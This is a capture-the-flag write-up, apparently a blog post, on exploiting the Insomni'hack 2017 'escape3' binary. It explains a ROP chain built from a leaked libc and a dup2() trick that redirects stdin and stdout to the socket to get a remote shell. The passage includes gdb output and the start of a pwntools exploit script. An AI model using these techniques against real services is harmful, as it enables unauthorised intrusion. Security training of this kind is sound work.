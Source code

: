 Now that we've found the correct libc, we can generate gadgets from it to craft a more useful ROP chain.

## Dup2() Trick
Unfortunately we can't just ROP to `system("/bin/sh\0");` for this particular challenge because the shell will execute on the host and interact with the **stdin** and **stdout** file descriptors, when we can only interact with the **socketfd** file descriptor.

Therefore, we came up with 2 approaches to bypass this issue. We can either do it the hard way, which involves calling `fopen()` to read the `flag` file to a filestream, calling `read()` to read the contents of the file to a buffer, and finally calling `send()` to send the contents of the buffer to our **socketfd** file descriptor, ***OR*** we can do it the easy way which simply involves doing a [dup2()](http://shell-storm.org/shellcode/files/shellcode-881.php) trick.

The `dup2()` trick basically involves overwriting file descriptors `0` and `1`, or `stdin` and `stdout`, with file descriptor `4`, which is the socket we are interacting with. 
Doing this should redirect all `stdin` and `stdout` to our `socketfd`, giving us an interactive shell.

The following is an example of what the **FD**'s may look like before the `dup2()` trick. 
{% highlight bash %}
gdb-peda$ procinfo
exe = /home/rh0gue/Documents/insomnihack17/escape3/flag.elf
fd[0] -> /dev/pts/31
fd[1] -> /dev/pts/31
fd[2] -> /dev/pts/31
fd[3] -> /home/rh0gue/Documents/insomnihack17/escape3/flag
fd[4] -> tcp        0      0 127.0.0.1:5001          127.0.0.1:36560         ESTABLISHED 0          158875
{% endhighlight %}

And this is what we want it to look like afterward:
{% highlight bash %}
gdb-peda$ procinfo
exe = /home/rh0gue/Documents/insomnihack17/escape3/flag.elf
fd[0] -> tcp        0      0 127.0.0.1:5001          127.0.0.1:36560         ESTABLISHED 0          158875
fd[1] -> tcp        0      0 127.0.0.1:5001          127.0.0.1:36560         ESTABLISHED 0          158875
fd[2] -> /dev/pts/31
fd[3] -> /home/rh0gue/Documents/insomnihack17/escape3/flag3
fd[4] -> tcp        0      0 127.0.0.1:5001          127.0.0.1:36560         ESTABLISHED 0          158875
{% endhighlight %}

The harder way is very straightfoward, but one caveat is, we need a place to write our `"flag"` and `"r"` strings to so that we can pass pointers to them into `fopen()`. In my exploit I just wrote the strings to the `.data` section, since it is has enough slack space and is writeable. In the solution I've included at the end of this post, I've commented this ROP chain out, as I believe the `dup2()` trick is a much easier and more elegant solution.

Putting everything together, we are able to get a shell using the following exploit.

## Exploit
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

e = ELF('./flag.elf')

def exploit(r):
    #name = "A"*0xff
    libc_base = 0x7f8356ad3e80-0x36e80 # from atoi leak

    pop_rdi = 0x401713          # pop rdi ; ret